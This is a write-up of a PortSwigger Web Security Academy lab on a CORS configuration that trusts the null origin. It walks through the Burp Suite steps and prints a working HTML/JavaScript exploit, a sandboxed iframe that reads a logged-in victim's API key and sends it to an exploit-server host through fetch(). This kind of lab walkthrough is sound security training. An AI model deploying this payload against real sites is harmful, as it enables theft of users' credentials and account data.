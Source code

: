 # CORS vulnerability with trusted null origin

## Description

[This website](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack) has an insecure CORS configuration in that it trusts the `null` origin.  

## Reproduction and proof of concept

1. Start Burp, foxyproxy, and with intercept off, log in to `wiener:peter` on the target site and access the account page.
2. In Burp, review the **HTTPhistory**. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Analysis:
* Browsers will never send cookies if wildcard origins are used, regardless of the content of the `Access-Control-Allow-Credentials` header. The inclusion of the session cookies in the request, so wildcard origins can not be abused here.
* Null origin allows access to the response if the `Access-Control-Allow-Credentials` header is set to true.
4. Send the request to **Burp Repeater**, and resubmit it with the added header `Origin: null`. Check that the `null` origin is reflected in the `Access-Control-Allow-Origin` header of the response.

![CORS](/_static/images/cors4.png)

Took a break. Timed out. `lab-id` change.

5. Create exploit (replacing `lab-id` and `exploit-server-id`). The [iframe sandbox generates a null origin request](https://webdbg.com/test/sandbox/frames.htm).

```text
<html>
    <body>
        <iframe style="display:none" sandbox="allow-scripts" srcdoc="<script>
            var req = new XMLHttpRequest();
            var url = 'https://lab-id.web-security-academy.net/'
            
            req.onreadystatechange = function () {
                if (req.readyState == XMLHttpRequest.DONE) {
                    fetch('https://exploit-server-id/log/key=' + req.responseText)
                }
            };
            
            req.open('get', url + 'accountDetails',true);
            req.withCredentials = true;
            req.send(null);
        </script>"></iframe>
    </body>
</html>
```

5. Go to the exploit server and enter the exploit in the body field of the form.
6. Click **View exploit** and check you land on the log page and check the API key of the current account is in the URL.

![CORS](/_static/images/cors5.png)

7. **Deliver exploit to victim**.
8. Go to **Access log**

![CORS](/_static/images/cors6.png)

9. Copy the administrator's API key, and enter it as solution to the lab.

## Exploitability

An attacker needs to craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to the exploit server. 

